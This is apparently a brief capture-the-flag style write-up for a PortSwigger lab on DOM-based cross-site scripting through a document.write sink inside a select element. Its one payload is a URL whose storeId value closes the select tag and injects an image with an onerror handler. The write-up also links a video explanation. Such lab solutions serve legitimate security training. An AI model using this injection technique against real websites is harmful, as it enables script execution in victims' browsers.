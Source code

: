 #  DOM XSS in document.write sink using source location.search inside a select element

![image](https://github.com/offensivecyber03/PortSwigger/assets/71892943/283bc7bf-1205-4f13-904b-0e4a0ba39e7e)

Last change to url:
`product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`<br>
 Explanation on you tube:
 https://youtu.be/AsR-YeaD5Iw

